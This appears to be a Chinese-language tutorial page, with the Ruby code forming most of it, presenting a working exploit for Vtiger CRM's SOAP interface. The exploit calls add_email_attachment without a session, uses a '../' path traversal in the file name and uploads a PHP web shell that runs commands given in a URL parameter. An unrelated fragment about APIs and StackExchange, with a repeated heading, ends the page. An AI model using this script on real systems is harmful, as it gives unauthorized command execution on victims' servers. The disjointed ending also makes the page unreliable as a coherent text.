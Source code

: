 这是一个针对 Vtiger CRM SOAP 的工作利用，从绕过认证到上传 shell

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client
client = Savon::Client.new(wsdl: url)

# List all available operations
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment,
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING",
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id" 
```

更多关于[Savon](http://savonrb.com/)的内容

* * *

# 与 API 交互

# 与 API 交互

API 有各种结构与其同行进行交互。

**StackExchange API**
